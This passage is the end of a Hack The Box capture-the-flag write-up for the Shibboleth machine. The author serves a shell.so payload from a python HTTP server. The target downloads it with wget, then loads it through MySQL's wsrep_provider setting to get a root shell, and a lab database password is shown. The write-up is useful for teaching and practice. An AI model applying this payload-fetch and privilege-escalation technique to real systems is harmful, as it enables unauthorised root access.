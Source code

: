 We can start a python server so we can transfer the file on ipmi-svc using wget. 
```console
0xStarlight@kali$ python3 -m http.server 80
```

## <span style="color:lightgreen">ipmi-svc Machine</span>

Transfer the file, execute the payload and check on the listening listener to get a shell as root.
```console
ipmi-svc@shibboleth:/$ wget http://10.10.x.x/shell.so -o /tmp/shell.so
ipmi-svc@shibboleth:/$ mysql -u zabbix -p -D zabbix -e 'SET GLOBAL wsrep_provider="/tmp/shell.so";'
password : bloooarskybluh
```

![image](https://user-images.githubusercontent.com/59029171/161686612-2a4d8f9f-2ea2-4711-ada7-538281026b4c.png)

# <span style="color:lightblue">Box Rooted</span>

![image](https://user-images.githubusercontent.com/59029171/161686774-cd12e45c-5bc3-4bc2-8c3d-b253dd05752f.png)

HTB Profile : [0xStarlight](https://app.hackthebox.com/profile/244565)

If you find my articles interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/0xStarlight"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=0xStarlight&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>
